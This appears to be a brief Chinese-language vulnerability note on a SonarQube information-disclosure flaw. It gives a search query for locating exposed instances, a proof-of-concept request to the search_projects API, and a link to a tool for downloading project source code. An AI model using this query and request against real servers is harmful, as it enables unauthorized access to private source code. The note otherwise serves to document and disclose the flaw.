


# SonarQube search_projects 项目信息泄露漏洞

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以通过工具下载源码

## 漏洞影响

```
SonarQube
```

## 网络测绘

```
app="sonarQube-代码管理"
```

## 漏洞复现

主页如下





漏洞POC


```plain
http://xxx.xxx.xxx.xxx/api/components/search_projects
```



可通过工具下载项目中的源代码 


https://github.com/deletescape/sloot

